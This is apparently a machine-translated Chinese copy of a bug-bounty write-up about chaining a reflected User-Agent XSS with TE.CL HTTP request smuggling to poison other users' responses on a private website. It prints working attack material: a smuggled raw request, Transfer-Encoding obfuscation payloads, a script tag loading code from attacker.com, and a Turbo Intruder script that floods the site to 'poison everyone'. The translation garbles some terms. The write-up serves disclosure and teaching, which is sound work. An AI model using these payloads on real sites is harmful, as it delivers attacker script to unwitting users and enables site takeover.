










# 利用 HTTP 请求走私(TE。CL)— XSS 将接管网站

> 原文：<https://infosecwriteups.com/exploiting-http-request-smuggling-te-cl-xss-to-website-takeover-c0fc634a661b?source=collection_archive---------1----------------------->



尽管 HTTP 请求走私早在 2005 年就有记录，但它仍然是最不为人知的 Webapp 漏洞之一。

休息了一会儿后，我决定去找一家私人公司(它没有资格获得 Bug 赏金，但仍然接受报告)，我发现的东西可能值得分享。

# 在用户代理标头中反映 XSS

我已经开发了自己的智能 XSS 模糊化(可能很快就会发布)，它测试 URL 端点和 HTTP 头。幸运的是，它发现用户代理正在被反映。我们可以通过使用 Burp Suite 手动发送请求来确认:



单词 *Exploitation* 正在被反映，我们放一个简单的 XSS，断开 Javascript 字符串。有效载荷将如下所示:

> " >

我们得到了 XSS，没有什么新的和有趣的。大多数私有程序不接受这个错误，因为在真实情况下，你不能发送特制的 HTTP 请求给最终用户。让我们试着把这个看起来天真无邪的 XSS 升级成更辛辣的东西。

# 侦察和检测 HTTP 请求走私

Burp Suite 有一个针对这种类型的漏洞的内置扩展，在我枚举时，它确实测试了任何类型的走私。


现在让我们执行自动扫描，进入**中继器**，右击并点击**发射走私探测器**。



如果检测到 HTTP 走私漏洞，将在**目标**选项卡上发布(在后台执行扫描可能需要几分钟)



取自[此处](https://hipotermia.pw/bb/http-desync-account-takeover)因为忘记截图了

# **忒。CL Exploit 开发**

在我们在 Burp Suite 中创建特殊请求之前，请转到 Repeater 菜单，确保“*更新内容长度*”选项未被选中，这样我们的内容长度值不会因 Burp Suite 而自动改变，这是此类利用的关键部分。

下面是我们精心制作的有效载荷。请记住，必须始终包括两个头部(*传输编码*和*连接*)。第一个块(A*1000)将被请求到前端服务器，它不包含任何恶意内容，因为它只是一个普通用户会做的常规请求。Content-length 之所以是 1007(下图中是 1005，哎呀……)，是因为有 1000 个*A + \r\n + 3e8 + b0。这意味着 1000 + 2 + 3 + 2 = 1007 个字节。注意:b0 仍然被认为是第一个请求的一部分，即使它定义了被走私请求的长度。

第二块数据是我们的走私请求，如果成功，我们应该得到错误 404 请求，因为网站上没有目录**/404 希望是**。

在第二个块之后，强制添加 x=1 或一串随机数据和两个换行符 **\r\n\r\n 在 0 之后**。

`*0\r\n\r\n
\r\n\r\n*`



将此请求发送到 Turbo-intrusor，如果我们收到任何 404 请求，这意味着我们特制的请求被发送到后端服务器。



请求在后端服务器上运行并产生 404 错误

# 后缀空格旁路-模糊 TE 头

我们必须混淆 te 报头，因为可以诱导其中一个服务器不处理它。这种技术在相当多的系统上有效，但是我们可以通过使传输编码头更难被发现来利用更多的技术，这样一个系统就看不到它了。以下是詹姆斯·凯特尔的一些有效载荷:

> `Transfer-Encoding: xchunked`
> 
> `Transfer-Encoding : chunked`
> 
> `Transfer-Encoding: chunked
> Transfer-Encoding: x`
> 
> `Transfer-Encoding:[tab]chunked`
> 
> `Transfer-Encoding: chunked`
> 
> `X: X[\n]Transfer-Encoding: chunked`
> 
> `Transfer-Encoding
> : chunked`

我使用空白作为旁路方法。



空格后缀旁路

# **中毒响应和网站接管**

我已经创建了一个 python 脚本，它可以自动处理请求。它还可以计算文本块和内容长度。你可以在这里查看:[https://github.com/kleiton0x00/TECL_DesyncCalculator](https://github.com/kleiton0x00/TECL_DesyncCalculator)

**注意:**我稍微编辑了脚本，添加了下面一行，这样我们可以在用户代理头中注入我们的 XSS:
`prefix += 'User-Agent: "><script src=http://attacker.com/script.js></script>' + RN`



因此，输出是我们的请求，我将是我们的最终有效负载，以毒化用户的响应(我也想添加 1000*A，只是为了让它更酷):

```
GET / HTTP/1.1
Transfer-Encoding : chunked
Host: private.website
Content-length: 4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded3e8
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA83
GET / HTTP/1.1
Host: private.website
User-Agent: “><script src=http://attacker.com/script.js></script>
Content-Length: 15x=1
0
```

在 **script.js 里面**是一个简单的代码，它生成一个作为 POC 的 HTML 网站(有点像一个 DOM XSS):

```
document.documentElement.innerHTML=String.fromCharCode(60, 104, 116, 109, 108, 62, 10, 60, 104, 49, 62, 85, 115, 101, 114, 39, 115, 32, 114, 101, 115, 112, 111, 110, 115, 101, 32, 105, 115, 32, 112, 111, 105, 115, 111, 110, 101, 100, 32, 119, 105, 116, 104, 32, 72, 84, 84, 80, 32, 82, 101, 113, 117, 101, 115, 116, 32, 83, 109, 117, 103, 103, 108, 105, 110, 103, 32, 97, 110, 100, 32, 88, 83, 83, 60, 47, 104, 49, 62, 10, 60, 47, 104, 116, 109, 108, 62, 10)
```

这里是我们的 **setup.txt** ，其中包含涡轮入侵者的配置部分:

```
#credits to https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()

    attack = target.req
    engine.queue(attack)

    victim = target.req
    for i in range(100000000):
        engine.queue(victim)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```

没什么可做的了，所以发动[涡轮入侵者](https://github.com/PortSwigger/turbo-intruder/releases/tag/1.2.0)毒害每个人:

```
java -jar turbo-intruder-all.jar setup.txt request.txt https://www.target.com/ /
```



只要涡轮入侵者还在运行，XSS 的有效载荷就会一直留在网站上。下面是在网站中执行的 Javascript。



用户的响应中毒

# 参考资料:

[https://ports wigger . net/research/http-desync-attacks-request-走私-投胎](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
https://portswigger.net/web-security/request-smuggling [https://www.youtube.com/watch?v=JW2fM_GmidU&t = 1s](https://www.youtube.com/watch?v=JW2fM_GmidU&t=1s)